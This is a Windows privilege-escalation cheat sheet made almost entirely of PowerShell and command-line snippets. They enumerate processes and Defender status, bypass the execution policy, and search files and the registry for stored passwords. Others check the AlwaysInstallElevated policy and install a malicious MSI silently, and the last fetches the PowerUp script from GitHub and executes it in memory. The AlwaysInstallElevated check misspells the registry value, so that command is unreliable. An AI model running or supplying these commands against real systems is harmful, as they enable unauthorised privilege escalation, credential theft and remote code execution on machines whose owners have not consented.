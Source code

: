 # Windows Privilege Escalation Cheatsheet

## Information gathering

### Powershell informations

```powershell
echo $Env:PSModulePath
Get-ExecutionPolicy
```

### Processes and owners

```powershell
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```

### Processes running as system

```powershell
tasklist /v /fi "username eq system"
```

### Windows Defender status

```powershell
Get-MpComputerStatus
```

## Bypass powershell execution policy

```powershell
Set-ExecutionPolicy Bypass -Scope Process
```

## Download file

```powershell
Invoke-WebRequest http://url-to/file.ps1 -OutFile C:\path\to\file.ps1
```

## Search for passwords in filesystem

```powershell
findstr /si password *.xml *.ini *.txt *.config
```

```powershell
reg query HKLM /f password /t REG_SZ /s /k
```

```powershell
reg query HKCU /f password /t REG_SZ /s /k
```

## MSI register

```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated
```

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated
```

If both return 1, then get an evil.msi and:

```powershell
msiexec /quiet /qn /i evil.msi
```

## Popular tools

### Load PowerUp

```powershell
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```
